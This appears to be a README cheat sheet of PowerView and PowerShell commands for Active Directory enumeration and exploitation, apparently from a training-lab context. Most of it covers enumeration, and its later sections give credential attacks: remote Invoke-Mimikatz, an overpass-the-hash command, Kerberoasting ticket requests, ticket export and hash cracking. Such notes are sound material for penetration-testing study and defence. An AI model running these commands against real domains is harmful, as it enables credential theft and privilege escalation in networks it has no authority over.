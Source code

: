 # Active-Directory
This Repository will contains various tools,scripts,commands used in Active Directory Enumeration and Exploitation


## Domain Enumeration
```
Get-NetDomain: it will Give  basic info about the other domain
Get-Net-Domain -Domain abc.local : it will give info about a domain "abc.local"
Get-DomainSID: Will give SID of current domain
Get-DomainPolicy: Will give info about the policies if the current doamin.
Get-NetDomainController: Info about the domain controller
```
## User Enumeration
```
Get-netuser: List all users in the current domain
Get-netuser -username test123 : Give info about the user test123
Get-UserProperty: List all properties of the user in current domain.
Get-UserProperty -properties pwdlastse: It will give info about the a property pwdlastset of all users in current domain.
Get-NetLoggedon -Computername server16 : It will tell all the users which are actively logged on to the computer.
Get-loggedonLocally : It will list all users who are logged in locally on the computer.
Get-LastLoggedon -Computername server016 : It will list user which have last logged on to the computer.
```
## Computer Enumeration

```
Get-NetComputer : It will list down all the computer object in the domain
Get-Netcomputer -FullData : It will list down all the properties of all computer objects in the domain.
Get-Netcomputer -OperatingSystem "*Server 2016*" : It will list down all the computer objects having Server 2016 as their operating system.
Get-Netcomputer -FullData | select OperatingSystem : It will list down all the OperatingSystem Property of all the computer objects.
Get-Netcomputer -Ping : It will check which of the computer objects are live in the domain.

```

## Group Enumeration

```
Get-NetGroup: It will list down all the groups 
Get-Netgroup 'Domain Admin' : It will check whether the Domain Admin group exists or not.
Get-Netgroup -GroupName "*admin*": It will return all those groups whose name contain the word "admin".
Get-NetgroupMember -groupname 'Domain Admin' : It will list down the members of the domain admins.
Get-Netgroup -Username "studentx" : Get the group membership of the user "studentx"
Get-netlocalgroup -computername xyz-dc.abc.local" List all local group on a machine.
```

## GPO Enumeration

### Group Policy allows you to centralize the management of computers on your network without having to physically go to and configure each computer individually. 
```
Get-NetGPO : List all the GPO in the current domain
Get-NetGPO -cpmputername xyz-dc.acbc.local : Get all GPOs of a particuler machine
Find-GPOComputerAdmin -computername xz-dc.abc.local: Get users which are in local group of a machine Using GPO

```
## OU Enumeration
```
Get-NetOU -Fulldata : Give info about the OUs in a domain.
```

## ACL Enumeration

### ACL Stands for Access Control List , which comprises of ACEs, Access Control Entries. ACEs corresponds to individual permissions or audit access , which means ACEs will tell who has what permission on an object

```
Get-ObjectACL -Samaccountname studentx  -ResolveGUIDs : Will give ACL associated with user "studentx".
Invoke-ACLScanner -ResolveGUIDs: will give all the interesting ACEs.
```

## Interesting User Hunting

```
Find-LocalAdminAccess  -Verbose : It will give you list of all machines in current domain 
Invoke-EnumerateLocalAdmin -verbose: Find all local admins on all machine  of current domain.

Invoke-Userhunter: Find computer where a domain admin has sessions.
Invoke-Userhunter  -GroupName  "RDPUsers" : Find computers where a "RDPUsers" has sessions.
Invoke-Userhunter -CheckAccess : To confirm admin access
```
## Lateral Movement
```
- New-Pssession -Computername xz-dc.abc.local -Credential $cred : Will give new powershell session on computer xz-dc.abc.local , the variable "cred" contains the credential for the target machine.

- Invoke-command -Scriptblock {whoami} -computername xz-dc.abc.local : It will execute command whoami on computer xz-dc.abc.local , for asking for credentiall add parameter -Credential.

- Invoke-command -Scriptblock ${function:Invoke-Mimikatz}  -computername xz-dc.abc.local :  It will execute Invoke-Mimikatz function on target machine , if mimikatz is loaded into it.

-Invoke-Mimikatz -command '"sekurlsa::pth /user:studentx /domain:abc.local /ntlm: <ntlm hash of user studentx> /run:powershell.exe"' : This method is known as OverPasstheHash attack . This will open a new powershell process as studentx user.
  
``` 
## Privilege Escalation Using Kerberos

- Find User Account Used as Service Account
-      Get-NetUser -SPN
- Requesting a TGS
-      Add-Type -AssemblyName System.IdentityModel 
-      New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName"
- Export all ticket using Mimikatz
-      Invoke-Mimikatz -Command '"kerberos::list /export"'
- Cracking the hash using john or hashcat
